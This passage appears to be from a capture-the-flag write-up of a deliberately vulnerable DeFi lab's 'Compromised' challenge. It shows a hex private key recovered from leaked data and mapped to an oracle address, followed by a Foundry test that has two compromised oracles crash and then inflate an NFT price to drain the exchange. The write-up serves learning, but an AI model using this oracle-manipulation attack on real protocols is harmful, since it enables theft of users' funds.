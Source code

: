 ```bash
```

Um okay, looks like it could be a 256-bit integer? Let's pop it into ECDSA and run Ethereum's address scheme on it.

```bash
┌──(samson)─[174]─[16:22:31]─[0:00:00.005360]─[kali@DESKTOP-0Q6Q7UG]─[/home/kali]
└─$ ec = ECDSA(secp256k1.G, d=0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159)

┌──(samson)─[175]─[16:23:15]─[0:00:00.048775]─[kali@DESKTOP-0Q6Q7UG]─[/home/kali]
└─$ keccak256 = Keccak(r=1088, c=512, digest_bit_size=256)

┌──(samson)─[176]─[16:23:28]─[0:00:00.000969]─[kali@DESKTOP-0Q6Q7UG]─[/home/kali]
└─$ keccak256.hash(ec.Q.serialize_uncompressed()[1:])[-20:].hex()
<Bytes: b'a417d473c40a4d42bad35f147c21eea7973539d8', byteorder='big'>
```

Looks familiar... Let's check the oracle's addresses.

```solidity
    address[] sources = [
        0x188Ea627E3531Db590e6f1D71ED83628d1933088
        0xA417D473c40a4d42BAd35f147c21eEa7973539D8, // (͠≖ ͜ʖ͠≖)👌
        0xab3600bF153A316dE44827e2473056d56B774a40
    ];
```

Oh! It's an oracle's hex-encoded, BASE64-encoded, ASCII-encoded, hex-encoded private key! We have 2/3 of the oracles!

Here's the exploit:
1. Make both compromised oracles set the price to 0
2. Buy an NFT
3. Set both prices to the exchange's entire balance
4. Sell the NFT

<br/>

```solidity
    function test_compromised() public checkSolved {
        Exploit exploit = new Exploit{value: PLAYER_INITIAL_ETH_BALANCE}(exchange, nft, recovery);

        for (uint i=0; i < 2; i++) {
            vm.startPrank(sources[i]);
            oracle.postPrice("DVNFT", 0);
            vm.stopPrank();
        }

        exploit.buy();


        for (uint i=0; i < 2; i++) {
            vm.startPrank(sources[i]);
            oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
            vm.stopPrank();
        }

        exploit.sell();
    }
```
